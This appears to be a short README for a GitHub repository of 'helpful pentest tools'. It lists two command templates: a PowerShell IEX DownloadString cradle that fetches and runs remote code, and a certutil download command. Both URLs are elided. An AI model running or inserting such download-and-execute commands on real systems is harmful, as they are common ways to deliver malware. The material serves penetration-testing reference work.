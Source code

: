 # tools
Helpful pentest tools

IEX (New-Object Net.WebClient).DownloadString(‘http://...’)

certutil -urlcache -split -f "http://..."
